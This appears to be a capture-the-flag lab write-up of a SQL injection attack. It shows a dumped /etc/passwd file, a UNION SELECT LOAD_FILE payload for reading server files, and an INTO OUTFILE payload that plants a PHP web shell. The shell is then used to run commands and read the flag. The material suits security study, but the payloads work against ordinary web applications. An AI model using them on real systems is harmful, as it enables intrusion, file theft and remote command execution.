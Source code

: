 root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin postgres:x:101:103:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash mysql:x:102:104:MySQL Server,,,:/nonexistent:/bin/false 

## Test if we can read from server

`0' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -`

$row[1] 	$row[2] 	$row[3] 	$row[4]
$row[1] 	$row[2] 	$row[3] 	$row[4]

ctrl + U and read source code, but nothing interesting was found

## Write command shel to server so we can run our own commands

`0' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -`

<permission denied, didn't allow to write me in this directory>

`0' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -`

<this one worked as i dont get any error on screen>

## Executing manual commands on server

`http://94.237.59.206:36381/dashboard/shell.php?0=id`

uid=33(www-data) gid=33(www-data) groups=33(www-data) 

`http://94.237.59.206:36381/dashboard/shell.php?0=ls ../../../../*.*`

OR

`http://94.237.59.206:36381/dashboard/shell.php?0=ls /`    <----- list all file in root directory and look for flag file


../../../../flag_cae1dadcd174.txt 

`http://94.237.59.206:36381/dashboard/shell.php?0=cat ../../../../flag_cae1dadcd174.txt`

OR

`http://94.237.59.206:36381/dashboard/shell.php?0=cat /flag_cae1dadcd174.txt`

528d6d9cedc2c7aab146ef226e918396     <------- HACKED (FLAG TEXT)
